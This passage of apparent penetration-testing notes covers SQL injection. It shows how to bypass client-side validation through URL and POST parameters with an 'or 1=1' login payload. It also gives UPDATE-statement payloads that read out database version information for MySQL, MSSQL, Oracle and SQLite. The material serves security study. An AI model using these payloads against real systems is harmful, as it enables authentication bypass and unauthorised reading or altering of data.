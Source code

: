 #### URL and POST Injection
Consider
```javascript
// Client side controls
function validateform() {
    var profileID = document.inputForm.profileID.value;
    var password = document.inputForm.password.value;

    if (/^[a-zA-Z0-9]*$/.test(profileID) == false || /^[a-zA-Z0-9]*$/.test(password) == false) {
        alert("The input fields cannot contain special characters");
        return false;
    }
    if (profileID == null || password == null) {
        alert("The input fields cannot be empty.");
        return false;
    }
}
```

URL Injection - URL bar in Browser!
```html
<!-- URL shows URL parameters -->
http://website/login?profileID=a&password=a 
<!-- Client Validation bypass, by going directly to URL  -->
http://website/login?profileID=-1' or 1=1-- -&password=a
<!-- URL encode -->
http://website/login?profileID=-1%27%20or%201=1--%20-&password=a 
```

POST Injection - POST request has data 
```html
POST /login <!-- POST request -->
Host: website
...
Referer: website
<!-- Newline goes here, below is the data -->
profileID=-1' or 1=1-- -&password=a
```

#### UPDATE statement
SQLi on UPDATE can modify database **BEWARE**
```html
<!-- html form -->
<input type="text" class="form-control" placeholder "Username" id="username" value="">
...
<input type="text" class="form-control" placeholder "Email" id="email" value="">
...
<input type="text" class="form-control" placeholder "Password" id="password" value="">
```

Enumerate with:
```sql
-- BEWARE this is a template for the above not a payload
-- consider what information the database to frontend pipeline displays
asd',username='test',email='hacked
-- Enumeration is done to gather information of:
-- Correct column names; some might not be visuable, if wrong column names it wont update
-- Then we use these columns to get data back from the database inplace of intend information
-- MySQL and MSSQL
',username=@@version,email='
-- For Oracle
',username=(SELECT banner FROM v$version),email='
-- For SQLite
',username=sqlite_version(),email='
-- Then use targeted database's SQL variant -> tablename -> target table's fields -> data
```
